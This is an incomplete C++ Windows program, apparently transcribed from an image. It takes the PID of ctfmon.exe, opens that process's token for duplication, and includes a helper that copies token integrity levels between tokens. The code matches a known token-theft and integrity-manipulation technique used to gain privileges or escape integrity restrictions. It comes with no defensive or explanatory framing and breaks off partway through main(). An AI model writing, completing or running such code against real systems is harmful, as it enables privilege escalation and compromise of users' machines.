 ```c
#include <windows.h>
#include <iostream>
#include <string>

// Helper function to adjust token integrity
bool SetTokenIntegrityLevel(HANDLE hTokenTarget, HANDLE hTokenSource) {
    DWORD dwSize = 0;
    TOKEN_MANDATORY_LABEL* pTILSource = nullptr;

    // Get the integrity level of the current process token
    if (!GetTokenInformation(hTokenSource, TokenIntegrityLevel, nullptr, 0, &dwSize) &&
        GetLastError() != ERROR_INSUFFICIENT_BUFFER) {
        std::cerr << "Failed to get token integrity level size: " << GetLastError() << std::endl;
        return false;
    }

    pTILSource = (TOKEN_MANDATORY_LABEL*)malloc(dwSize);
    if (!pTILSource) {
        std::cerr << "Memory allocation failed.\n";
        return false;
    }

    if (!GetTokenInformation(hTokenSource, TokenIntegrityLevel, pTILSource, dwSize, &dwSize)) {
        std::cerr << "Failed to get token integrity level: " << GetLastError() << std::endl;
        free(pTILSource);
        return false;
    }

    // Set the integrity level for the target token
    if (!SetTokenInformation(hTokenTarget, TokenIntegrityLevel, pTILSource, dwSize)) {
        std::cerr << "Failed to set token integrity level: " << GetLastError() << std::endl;
        free(pTILSource);
        return false;
    }

    free(pTILSource);
    return true;
}

int main(int argc, char* argv[]) {
    if (argc != 2) {
        std::cerr << "Usage: <program> <PID of ctfmon.exe>" << std::endl;
        return 1;
    }

    DWORD targetPID = std::stoi(argv[1]);
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, targetPID);
    if (!hProcess) {
        std::cerr << "Failed to open target process: " << GetLastError() << std::endl;
        return 1;
    }

    HANDLE hToken = NULL;
    if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE, &hToken)) {
        std::cerr << "Failed to open process token: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE hCurrentProcessToken = NULL;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hCurrentProcessToken)) {
        std::cerr << "Failed to open current process token: " << GetLastError() << std::endl;
        CloseHandle(hToken);
```